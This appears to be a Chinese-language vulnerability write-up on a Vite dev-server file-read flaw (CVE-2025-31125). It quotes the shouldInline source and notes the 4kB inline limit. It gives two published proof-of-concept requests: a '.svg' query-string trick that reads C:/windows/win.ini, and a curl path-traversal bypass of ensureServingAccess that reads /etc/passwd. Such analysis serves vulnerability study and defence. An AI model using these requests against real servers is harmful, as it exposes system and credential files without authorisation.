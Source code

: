 CVE-2025-31125走的分支是inlineRE.test(id)  
，但是现在inline不能用了，那我们可以走svgExtRE.test(id)  
分支  
  
   
  
这个就是官方披露的第一个poc  
  
   
```
http://localhost:5173/iife/C:/windows/win.ini?import&?.svg?.wasm?init
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNo7THKyYSY5ypib4IbrRLicpPFuFQic9fTbNsT7CxRW8vkV6WHsCY0tFibkt1DgwtcpCEIa824mkcjvA/640?wx_fmt=png&from=appmsg "")  
  
   
  
得出这个poc一个是要满足svgExtRE  
正则和shouldInline  
方法中的各种条条框框  
  
   
```
function shouldInline(  environment: Environment,  file: string,  id: string,  content: Buffer,  /** Should be passed only in build */  buildPluginContext: PluginContext | undefined,  forceInline: boolean | undefined,): boolean {  if (noInlineRE.test(id)) return false  if (inlineRE.test(id)) return true  // Do build only checks if passed the plugin context during build  if (buildPluginContext) {    if (environment.config.build.lib) return true    if (buildPluginContext.getModuleInfo(id)?.isEntry) return false  }  if (forceInline !== undefined) return forceInline  if (file.endsWith('.html')) return false  // Don't inline SVG with fragments, as they are meant to be reused  if (file.endsWith('.svg') && id.includes('#')) return false  let limit: number  const { assetsInlineLimit } = environment.config.build  if (typeof assetsInlineLimit === 'function') {    const userShouldInline = assetsInlineLimit(file, content)    if (userShouldInline != null) return userShouldInline    limit = DEFAULT_ASSETS_INLINE_LIMIT  } else {    limit = Number(assetsInlineLimit)  }  return content.length < limit && !isGitLfsPlaceholder(content)}
```  
  
可以有很多变形，核心不变的在于.svg  
  
   
  
这种利用方式还有个限制就是只能读取文件小于 build.assetsInlinelimit   
(默认为 4kB) 的文件  
  
   
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNo7THKyYSY5ypib4IbrRLicpW49RRH4ykyaD6oOOTbPJ9KibYXc7ObpPjCHyeYZGtHOZ5EjwWkickibaw/640?wx_fmt=png&from=appmsg "")  
  
   
  
  
   
### bypass权限校验ensureServingAccess  
  
   
  
官方披露的第二个poc为  
  
   
```
curl 'http://127.0.0.1:5173/@fs/x/x/x/vite-project/?/../../../../../etc/passwd?import&?raw'
```  
  